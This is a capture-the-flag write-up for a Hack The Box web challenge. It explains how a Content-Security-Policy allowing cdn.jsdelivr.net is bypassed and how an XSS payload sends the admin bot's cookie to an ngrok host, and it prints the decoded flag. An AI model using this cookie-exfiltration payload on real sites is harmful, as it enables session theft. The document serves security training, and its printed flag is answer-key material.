 # Cursed Secret Party
> You've just received an invitation to a party. Authorities have reported that the party is cursed, and the guests are trapped in a never-ending unsolvable murder mystery party. Can you investigate further and try to save everyone?

## Solution

Looking through the provided source code, we see a `bot.js` file which reads the flag.txt file.
```javascript
const fs = require('fs');
const puppeteer = require('puppeteer');
const JWTHelper = require('./helpers/JWTHelper');
const flag = fs.readFileSync('/flag.txt', 'utf8');
```
The `visit` function opens a browser page and sets a `JWT` token as a cookie. The flag is passed in said token. So we obviously need to steal the bot's cookie to get the flag.

```javascript
const visit = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
		await page.setCookie({
			name: 'session',
			value: token,
			domain: '127.0.0.1:1337'
		});
```

After the bot sets the cookie, it visits the `/admin` endpoint, waits 5 seconds, then deletes all the content.
```javascript
		await page.goto('http://127.0.0.1:1337/admin', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});

		await page.goto('http://127.0.0.1:1337/admin/delete_all', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});
```
In the index.js file we notice that we have some definitions set for the CSP.
```javascript
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
```
We noticed this earlier in our Response as well:
```
Content-Security-Policy: script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'
```
After a little bit of research about CSP and XSS, I found out in the CSP evaluator :
```
cdn.jsdelivr.net is known to host JSONP endpoints and Angular libraries which allow to bypass this CSP.
```
We can host an `xss.js` file on a GH repository and add something like alert(1). We can finally trigger the alert, but we need to cookie.

Digging deep enough, i found out this repository: [CSP bypass](https://github.com/CanardMandarin/csp-bypass). It's a simple project that allows the bypass of csp.

we need to create a script tag that point to that repository and  execute a "query" to our ngrok.

Finally we got it:
```javascript
<script src="https://cdn.jsdelivr.net/gh/canardmandarin/csp-bypass@master/dist/sval-classic.js"></script><br csp="window.location='[ngrok url]/?c='.concat(document.cookie)">
```
We got the cookie.
In the `JWTHelper.js` file we see how the JWT token is signed. It uses HS256 with a big random hex string .
```javascript
const APP_SECRET = crypto.randomBytes(69).toString('hex');

module.exports = {
	sign(data) {
		data = Object.assign(data);
		return (jwt.sign(data, APP_SECRET, { algorithm:'HS256' }))
	},
	async verify(token) {
		return (jwt.verify(token, APP_SECRET, { algorithm:'HS256' }));
	}
}
```

Finaly we decoded our token using `jwt.io`.

The flag :
```
HTB{cdn_c4n_byp4ss_c5p!!}
```